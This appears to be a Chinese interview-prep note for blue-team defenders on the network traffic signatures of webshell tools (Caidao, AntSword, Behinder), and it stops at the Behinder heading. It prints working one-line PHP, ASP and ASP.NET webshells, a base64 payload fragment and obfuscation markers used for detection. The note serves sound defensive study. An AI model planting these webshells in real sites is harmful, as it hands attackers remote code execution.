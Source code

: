 # Hvv面试题目（蓝初）

## 流量特征

https://blog.csdn.net/qq_53577336/article/details/125048353

### 菜刀流量特征

常见一句话(Eval)：

**php一句话**:

```
<?php @eval($_POST['caidao']);?>
```

**ASP一句话**:

```
<%eval request("caidao")%>
```

数据包末尾**i=A&z0=GB2312**

**asp.net一句话**:

```
<%@ Page Language="Jscript"%><%eval(Request.Item["caidao"],"unsafe");%>
```

> 1："Execute"Execute函数用于执行传递的攻击payload，这是必不可少的，这个等同于php类中eval函数； 
>
> 2：OnError ResumeNext，这部分是大部分ASP客户端中必有的流量，能保证不管前面出任何错，继续执行以下代码。
>
> 3：Response.Write和Response.End是必有的，是来完善整个操作的。

请求体中传递的payload为base64编码，并且存在固定的为

> QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7J

unicode编码

### 中国蚁剑流量特征

**php**

每个请求体都存在 `@ini_set(“display_errors”, “0”);@set_time_limit(0)` 开头，并且存在 base64_decode 等字符。

**ASP**

OnError ResumeNext、Response.End、Response.Write

**Ex"&cHr(101)&"cute**

参数名大多以："_0x......="这种形式

**冰蝎**
